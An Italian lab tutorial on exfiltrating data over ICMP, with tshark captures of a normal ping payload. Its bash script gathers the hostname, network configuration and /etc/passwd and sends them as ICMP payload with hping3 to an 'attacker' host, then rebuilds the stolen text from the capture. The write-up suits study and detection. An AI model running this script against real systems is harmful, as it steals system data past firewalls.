 # Esfiltrare dati tramite ICMP

## Contesto

Uno degli obiettivi di un attaccante è quello di esfiltrare dati dall'host sotto attacco, dati che possono riguardare il sistema (cose come configurazione IP, lista degli utenti, informazioni sull'ambiente di rete, ecc...) oppure possono essere dati veri e propri; in tutti i casi, è interesse dell'attaccante poter esfiltrare dati verso l'esterno senza essere notato, e usando un protocollo standard che non sia bloccato dai firewall.

Uno dei tanti metodi a disposizione consiste nello sfruttare un protocollo di rete come ICMP, sostituendo il payload di un pacchetto standard ICMP con i dati che vogliamo esfiltrare da un sistema precedentemente compromesso.

In questo articolo vedremo alcuni test, in cui abbiamo due host: A è la macchina compromessa, mentre B rappresenta l'attaccante:

- A: 172.31.250.2
- B: 172.31.250.10

## Analisi del payload di un normale pacchetto ICMP

Un normale pacchetto ICMP consiste in un semplice comando ping, in cui si ha una richiesta (request) e, quando l'host è raggiungibile, una risposta (response), proviamo quindi ad analizzare request e response ICMP, facendo un ping dall'host A all'host B, catturando il traffico di rete sull'host B; dalla cattura, visualizziamo da riga di comando il payload della request ICMP con questo comando di tshark:

~~~shell
tshark -r /vagrant/icmp.pcapng -x -Y 'icmp.type == 8'
~~~

con il quale otteniamo questo output

~~~shell
0000  08 00 27 0a 6c 9f 08 00 27 c9 19 f8 08 00 45 00   ..'.l...'.....E.
0010  00 54 ec 86 40 00 40 01 01 d6 ac 1f fa 02 ac 1f   .T..@.@.........
0020  fa 0a 08 00 87 8c 00 01 00 01 8b 19 ea 64 00 00   .............d..
0030  00 00 35 20 07 00 00 00 00 00 10 11 12 13 14 15   ..5 ............
0040  16 17 18 19 1a 1b 1c 1d 1e 1f 20 21 22 23 24 25   .......... !"#$%
0050  26 27 28 29 2a 2b 2c 2d 2e 2f 30 31 32 33 34 35   &'()*+,-./012345
0060  36 37                                             67
~~~

che rappresenta il pacchetto completo della richiesta ICMP, mentre il payload è ciò che è rappresentato, sulla colonna di destra, dal numero 5 fino al termine del pacchetto, o in esadecimale, dalla posizione 35 20, come possiamo vedere sempre con tshark:

~~~shell
tshark -r /vagrant/icmp.pcapng -Y 'icmp.type == 8' -T fields -e data.data
~~~

dal quale otteniamo questo output, che ci mostra il payload in esadecimale della nostra richiesta ICMP

~~~shell
3520070000000000101112131415161718191a1b1c1d1e1f202122232425262728292a2b2c2d2e2f3031323334353637
~~~

**N.B.** Questo è il payload ICMP su Ubuntu, il payload su Windows è diverso, anche se ai fini dell'argomento trattato è ininfluente.

## Modifica del payload di un pacchetto ICMP e analisi di rete

Ora proveremo a simulare l'esfiltrazione di dati da una macchina compromessa, raccogliendo alcune informazioni come il nome host, la configurazione IP, le route e la lista degli utenti del sistema, quindi queste informazioni verranno trasferite tramite ICMP per mezzo dell'utility hping3, un tool che permette di fare tantissime cose a livello di networking, e che in questo caso sfrutteremo per trasferire le informazioni dall'host A all'host B; tutto ciò verrà eseguito tramite lo script seguente:

~~~shell
#!/bin/bash

echo "=========HOSTNAME=========" > /tmp/data.txt
hostname >> /tmp/data.txt
echo "=========CONFIGURAZIONE IP=========" >> /tmp/data.txt
ip a >> /tmp/data.txt
echo "=========LISTA ROUTE=========" >> /tmp/data.txt
ip r >> /tmp/data.txt
echo "=========LISTA UTENTI=========" >> /tmp/data.txt
cat /etc/passwd >> /tmp/data.txt

hping3 -1 -E /tmp/data.txt -u -d 150 -c 30 172.31.250.10
~~~

Lo script in breve: vengono lanciati alcuni comandi il cui output viene rediretto verso il file /tmp/data.txt, quindi viene eseguito il comando hping3, in cui l'opzione -1 indica l'utilizzo del protocollo ICMP, l'opzione -E prende il contenuto del file /tmp/data.txt e lo utilizza come payload dei vari pacchetti ICMP, -d indica la lunghezza del payload di ogni pacchetto, mentre l'opzione -c rappresenta il numero di pacchetti ICMP inviati, nel mio caso ho scelto 30 in modo del tutto arbitrario.

Come nell'esempio precedente, andrò ad analizzare il traffico di rete; per prima cosa, andremo di nuovo a visualizzare il payload dei pacchetti con il comando

~~~shell
tshark -r /vagrant/icmp.pcapng -x -Y 'icmp.type == 8'
~~~

di cui viene riportato l'output del primo pacchetto

~~~shell
0000  08 00 27 0a 6c 9f 08 00 27 c9 19 f8 08 00 45 00   ..'.l...'.....E.
0010  00 b2 53 4b 00 00 40 01 da b3 ac 1f fa 02 ac 1f   ..SK..@.........
0020  fa 0a 08 00 a7 8a 9b 09 00 00 3d 3d 3d 3d 3d 3d   ..........======
0030  3d 3d 3d 48 4f 53 54 4e 41 4d 45 3d 3d 3d 3d 3d   ===HOSTNAME=====
0040  3d 3d 3d 3d 0a 6d 61 6c 77 61 72 65 2d 61 6e 61   ====.network-ana
0050  6c 79 73 69 73 0a 3d 3d 3d 3d 3d 3d 3d 3d 3d 43   lysis.=========C
0060  4f 4e 46 49 47 55 52 41 5a 49 4f 4e 45 20 49 50   ONFIGURAZIONE IP
0070  3d 3d 3d 3d 3d 3d 3d 3d 3d 0a 31 3a 20 6c 6f 3a   =========.1: lo:
0080  20 3c 4c 4f 4f 50 42 41 43 4b 2c 55 50 2c 4c 4f    <LOOPBACK,UP,LO
0090  57 45 52 5f 55 50 3e 20 6d 74 75 20 36 35 35 33   WER_UP> mtu 6553
00a0  36 20 71 64 69 73 63 20 6e 6f 71 75 65 75 65 20   6 qdisc noqueue
00b0  73 74 61 74 65 20 55 4e 4b 4e 4f 57 4e 20 67 72   state UNKNOWN gr
~~~

Come si può vedere, ora il payload è più grande (parametro -d del comando hping3), e soprattutto contiene la prima parte delle informazioni raccolte sull'host compromesso. Ma se volessi ricostruire tutte le informazioni inviate con hping3? Con tshark e utilizzando sed, la cosa è piuttosto semplice, basta usare un comando come il seguente

~~~shell
tshark -r /vagrant/icmp.pcapng -Y 'icmp.type == 8' -o data.show_as_text:TRUE -T fields -e data.text | sed 's/\\n/\n/g' | sed '/^$/d'
~~~

per ottenere questo output (l'output è tagliato altrimenti sarebbe troppo lungo)

~~~shell
=========HOSTNAME=========
network-analysis
=========CONFIGURAZIONE IP=========
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN gr
oup default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_
lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc f
q_codel state UP group default qlen 1000
    link/ether 02:2d:ad:11:22:33 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope
global dynamic enp0s3
       valid_lft 85108sec preferred_lft 85108sec
    inet6 fe80::2d:adff:fe54:38ca/64 scope link
       valid_lft forever prefe
rred_lft forever
3: enp0s8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:11:22:3
3 brd ff:ff:ff:ff:ff:ff
    inet 172.31.250.2/24 brd 172.31.250.255 scope global enp0s8
       valid_lft forever preferred_lft forever
    inet6 fe80:
:a00:27ff:fec9:19f8/64 scope link
       valid_lft forever preferred_lft forever
~~~

Come si può notare, l'output non è perfetto, ma è senz'altro adatto allo scopo. Da notare inoltre le opzioni utilizzate con il comando tshark: per prima cosa viene specificato un display filter che ci consente di ottenere solo le request ICMP (opzione -Y 'icmp.type == 8'), quindi abbiamo l'opzione -o data.show_as_text:TRUE che ci consente di visualizzare il payload in formato testo, infine scegliamo di mostrare solo il campo data (cioé il payload) in formato testo (opzione -e data.text), successivamente utilizziamo il comando sed per formattare il testo nel modo più opportuno.

## AVVERTENZE

Questa è sostanzialmente una simulazione fatta su un mio lab privato, fatta per chiarirmi le idee su questi argomenti, nel mondo reale, si usano altri strumenti e tecniche, come ICMP tunneling, sia per esfiltrare dati sia per far comunicare l'host infetto con l'attaccante, in modo che quest'ultimo possa lanciare comandi sul sistema compromesso (command and control, o C2). 

Usare queste tecniche su sistemi che non si amministra o per cui non si è ricevuta un'autorizzazione rappresenta un reato, per cui, attenzione, sempre.